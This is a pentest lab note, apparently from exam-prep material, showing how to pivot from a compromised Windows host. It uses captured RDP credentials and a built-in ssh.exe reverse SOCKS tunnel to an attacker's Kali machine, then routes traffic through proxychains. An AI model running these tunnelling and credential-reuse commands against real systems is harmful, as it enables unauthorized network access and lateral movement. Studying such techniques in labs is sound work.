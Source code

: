 
## Windows

### ssh.exe

- **%systemdrive%\\Windows\\System32\\OpenSSH**
	- Default directory for SSH Utilities (ssh, scp, sftp, etc)
- Requires v7.6 or higher

#### Scenario
![](ssh-tunnel-windows.png)

#### Execution

- Start up an SSH server on Kali
```bash
sudo systemctl start ssh
```

- RDP into MULTISERVER03 w/ previously found credentials
```bash
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.216.64
```

- Find ssh, check version, & create a dynamic port forward to kali
```powershell
where ssh
	C:\Windows\System32\OpenSSH\ssh.exe

ssh.exe -V
	OpenSSH_for_Windows_8.1p1, LibreSSL 3.0.2

ssh -N -r 9998 kali@192.168.45.204
	The authenticity of host '192.168.45.204 (192.168.45.204)' can't be established.
	ECDSA key fingerprint is SHA256:Z6AWTPQLtEMVjOkkRmrchK5U1cx9L6Dek+5Gx8+icic.
	Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
	Warning: Permanently added '192.168.45.204' (ECDSA) to the list of known hosts.
	kali@192.168.45.204's password:
```

- Verify connection on Kali
```bash
ss -ntplu
	Netid          State           Recv-Q          Send-Q                   Local Address:Port                      Peer Address:Port          Process
	udp            UNCONN          0               0                              0.0.0.0:34960                          0.0.0.0:*
	tcp            LISTEN          0               128                          127.0.0.1:9998                           0.0.0.0:*
```

- Update proxychains conf to use the socket
```bash
sudo vim /etc/proxychains4.conf
	...
	[ProxyList]
	# add proxy here ...
	# meanwile
	# defaults set to "tor"
	# socks4        127.0.0.1 9050
	socks5 127.0.0.1 9998
```
